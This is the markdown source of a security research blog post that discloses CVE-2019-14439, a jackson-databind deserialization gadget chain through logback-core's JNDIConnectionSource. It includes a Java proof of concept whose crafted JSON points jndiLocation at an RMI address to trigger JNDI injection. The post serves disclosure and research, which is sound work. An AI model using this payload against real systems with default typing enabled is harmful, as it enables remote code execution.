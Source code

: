```yaml
---
layout: post
title: "Attacking Unmarshallers :: JNDI Injection using Getter Based Deserialization Gadgets"
date: 2019-08-07 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<p class="cn" markdown="1">I know you have pwned deserialization of untrusted data bugs before (if you haven't what the hell, they are fun!), but have you pwned an entire REST framework due to a misconfigured marshaller? In this short blog post, we will reveal some quick research that was done based upon the excellent work perform by [Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html).</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*In this post, I share another gadget chain for FasterXML's jackson-databind using the common logback-core library and not requiring any other libraries. This was a bug collison with [badcode of Knownsec 404 Team](https://twitter.com/80vul/status/1156766341946232832) and marked as CVE-2019-14439.*</p>

## Analysis

<p class="cn" markdown="1">During a quick audit of the logback-core library, I found a gadget chain for the ch.qos.logback.core.db.JNDIConnectionSource class literally the same package as the DriverManagerConnectionSource class</p>

{% include image.html
            img="assets/images/attacking-unmarshallers-jndi-injection-using-getter-based-deserialization/JNDIConnectionSource.png#2"
            title="Next to the DriverManagerConnectionSource class"
            caption="Next to the DriverManagerConnectionSource class"
            style="width:30%;height:30%" %}

<p class="cn" markdown="1"> If you want to setup your own vulnerable environment, you can grab the vulnerable libs here:</p>
<div markdown="1" class="cn">
- [jackson-core-2.9.9.jar](https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-core/2.9.9/jackson-core-2.9.9.jar)
- [jackson-databind-2.9.9.1.jar](https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-databind/2.9.9.1/jackson-databind-2.9.9.1.jar)
- [jackson-annotations-2.9.9.jar](https://repo1.maven.org/maven2/com/fasterxml/jackson/core/jackson-annotations/2.9.9/jackson-annotations-2.9.9.jar)
- [logback-core-1.3.0-alpha4.jar](https://repo1.maven.org/maven2/ch/qos/logback/logback-core/1.3.0-alpha4/logback-core-1.3.0-alpha4.jar)
</div>

<p class="cn" markdown="1">The setter for the class looks pretty standard for `jndiLocation`</p>

```java
/*  90 */   public void setJndiLocation(String jndiLocation) { this.jndiLocation = jndiLocation; }
```

<p class="cn" markdown="1">However, we trigger the `getConnection` method via `ObjectMapper.writeValueAsString` which is used to return JSON objects back to a user via a REST endpoint, we reach the following code:</p>

```java
/*     */   public Connection getConnection() throws SQLException {
/*  54 */     Connection conn = null;
/*     */     try {
/*  56 */       if (this.dataSource == null) {
/*  57 */         this.dataSource = lookupDataSource();         // 1
/*     */       }
```

<p class="cn" markdown="1">So if the dataSource property is not set, the code calls `JNDIConnectionSource.lookupDataSource` at *[1]*</p>

```java
/*     */   private DataSource lookupDataSource() throws NamingException, SQLException {
/*  94 */     addInfo("Looking up [" + this.jndiLocation + "] in JNDI");
/*     */     
/*  96 */     Context initialContext = new InitialContext();                    // 2
/*  97 */     Object obj = initialContext.lookup(this.jndiLocation);            // 3
/*     */ 
/*     */ 
/*     */     
/* 101 */     DataSource ds = (DataSource)obj;
/*     */     
/* 103 */     if (ds == null) {
/* 104 */       throw new SQLException("Failed to obtain data source from JNDI location " + this.jndiLocation);
/*     */     }
/* 106 */     return ds;
/*     */   }
```

<p class="cn" markdown="1">At *[2]* the code gets an instance of the InitialContext class and at *[3]* the code calls `InitialContext.lookup` using the attacker controlled `jndiLocation` property.</p>

<p class="cn" markdown="1">In a context dependant attack, where default typing is enabled for jackson-databind, this can result in a JNDI Injection vulnerability.</p>

```java
import java.io.IOException;
import com.fasterxml.jackson.core.JsonParseException;
import com.fasterxml.jackson.databind.JsonMappingException;
import com.fasterxml.jackson.databind.ObjectMapper;

public class JacksonTest {
    public static void main(String[] args) throws JsonParseException, JsonMappingException, IOException {
        
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.enableDefaultTyping();

        StringBuilder d = new StringBuilder();
        d.append("[");
        d.append("\"ch.qos.logback.core.db.JNDIConnectionSource\"");
        d.append(",");
        d.append("{");
        d.append("\"jndiLocation\"");
        d.append(":");
        d.append("\"rmi://127.0.0.1:1097/rce\"");       // payload
        d.append("}");
        d.append("]");
 
        Object obj = objectMapper.readValue(d.toString(), java.lang.Object.class);          // trigger getters
        objectMapper.writeValueAsString(obj);                                               // trigger setters
    }
}
```

<p class="cn" markdown="1">There are multiple ways to achieve remote code execution via JNDI injection on older versions of Java using either class loading or attacking the Distrubuted Garbage Collection (DGC) for deserialization of untrusted data, techniques which are all taught in [Full Stack Web Attack](/training).</p> 

## Conclusion

<p class="cn" markdown="1">Getter based deserialization attacks are something to watch out for and can be mitigated by not using default typing. This is not a vulnerability to worry about since it has been patched and requires specific version of java to exploit.</p>

<p class="cn" markdown="1">It's interesting to note that the connection property doesn't exist at all in the `JNDIConnectionSource` class, even so, `getConnection` follows the Java bean convention and still gets called!</p>

<p class="cn" markdown="1">FasterXML continue to block individual classes and whilst I see the reasoning behind it, it makes for a cat and mouse game between attackers and defenders and I don't think that is the right approach.</p>

## References

<div markdown="1" class="cn">
- [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [https://github.com/FasterXML/jackson-databind/issues/2389](https://github.com/FasterXML/jackson-databind/issues/2389)
</div>
